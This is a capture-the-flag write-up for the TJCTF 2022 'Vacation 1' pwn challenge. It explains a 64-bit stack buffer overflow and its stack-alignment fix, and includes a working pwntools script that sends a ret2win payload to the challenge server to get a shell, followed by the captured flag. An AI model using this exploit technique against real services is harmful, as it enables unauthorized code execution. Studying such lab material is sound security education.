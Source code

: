 # \[Pwn\] - Vacation 1

#### Points = 176

## Prompt

Too much school, too much work, too much writing CTF challenges... can I just go on vacation?

`nc tjc.tf 31680`

by kfb

#### Hints
\[None\]

## Provided Files
[files](../../files/tjctf-2022/vacation-1) - link to files

- `DockerFile`
- `chall.c` - source code
- `chall` - compiled binary

<div style="page-break-after: always"></div>

## Write Up

- ok let's see what this is doing.
	![source|500](../images/tjctf-2022/vacation_src.png)
	- line #16 - `main()` calls `vacation()`
	- line #9 - `vacation()` allocates 16 bytes on the stack for a buffer
	- line #11 - `fgets()` accepts 64 bytes as input.
		- we can overflow this buffer and overwrite stack values.
	- line #4 - `shell_land()` function gives us a shell which we can use to read the flag.
		- we need to overwrite the return address in `vacation()` to return to `shell_land()`

<div style="page-break-after: always"></div>

#### What the Stack Looks like:
![layout|500](../images/tjctf-2022/vacation_stack.png)

- our input must fill the buffer with 16 bytes
- the next 8 bytes will fill the space for the saved `rbp` register
- the last 8 bytes should be filled with the address of `shell_land()`
- you can find function addresses using gdb: 
	![gdb|500](../images/tjctf-2022/vacation_gdb.png)

<div style="page-break-after: always"></div>

#### Modification

- this approach does not work because the stack is not aligned on the target machine
	- since this is a 64-bit machine, all stack addresses are 8 byte aligned.
	- libc functions like `system()` have the extra requirement that the stack is 16 byte aligned.
- **New Approach** -  instead we will jump to any `ret` instruction in the program and then to `shell_land()`
	- an extra `ret` instruction pops a value off the stack which makes it 16 byte aligned if it was not before.

###### Explanation of New Approach

- what `ret` does is pop 8 bytes off the stack into `rip`
- we are going to be executing two `ret` instructions in a row
	- first - at the end of `vacation()`
	- second - the one we are jumping to
- after the first `ret` executes, `rsp` will be pointing right above the address it placed in `rip`, since `ret` is just a fancy `pop` instruction.
- We can jump to a `ret` instruction and then `shell_land()` by placing their addresses consecutively on the stack as shown below.
- I hope I did a good job explaining this `-_(0-0)_-`

![modified|500](../images/tjctf-2022/vacation_mod.png)


#### Solution
- here is a python script which creates a payload as described above.

	```
	from pwn import *

	# location of shell_land() - handles endianness
	ret_instr_addr = p64(0x4011df)
	shell_addr = p64(0x401196)

	# 16B - buffer, 8B - saved rbp
	padding = b'A' * 24

	# final payload
	# jump to a ret instr then to func (fixes alignment issue)
	payload = padding + ret_instr_addr + shell_addr

	# make connection and deliver
	# elf = ELF('./chall')
	# tgt = elf.process()
	tgt = remote('tjc.tf', 31680)
	line = tgt.recvline()

	tgt.sendline(payload)
	tgt.interactive()
	```

- this gives you a shell where you can `cat` the flag
	![shell|500](../images/tjctf-2022/vacation_shell.png)
	
## Flag

tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}
